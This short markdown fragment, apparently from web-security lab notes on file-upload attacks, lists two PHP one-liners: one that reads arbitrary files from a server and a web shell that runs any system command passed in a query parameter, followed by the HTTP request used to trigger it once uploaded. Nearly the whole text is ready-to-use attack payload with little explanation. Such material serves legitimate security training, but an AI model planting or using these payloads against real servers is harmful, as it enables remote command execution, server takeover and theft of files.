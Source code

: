 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter:

`<?php echo system($_GET['command']); ?>`
Once uploaded: `GET /example/exploit.php?command=whoami HTTP/1.1`



